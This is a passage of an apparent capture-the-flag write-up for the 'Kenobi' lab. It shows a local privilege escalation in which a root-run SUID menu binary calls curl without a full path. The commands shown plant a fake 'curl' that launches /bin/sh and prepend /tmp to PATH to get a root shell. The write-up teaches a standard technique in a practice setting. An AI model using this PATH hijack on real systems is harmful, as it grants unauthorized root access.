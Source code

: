 ~~~
kenobi@kenobi:~$ /usr/bin/menu 

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
~~~

Answer: `3`

### #4.3

**Instructions**

`strings` is a command on Linux that looks for human readable strings on a binary.

!["toHFALv.png"](files/toHFALv.png)

This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).

As this file runs as the root users privileges, we can manipulate our path gain a root shell.

!["OfMkDhW.png"](files/OfMkDhW.png)

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

**Answer**

Following the instructions, we add a fake `curl` executable that we add to the `PATH` environment variable:

~~~
kenobi@kenobi:/usr/bin$ cd /tmp/
kenobi@kenobi:/tmp$ echo "/bin/sh" > curl
kenobi@kenobi:/tmp$ chmod 777 curl 
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
~~~
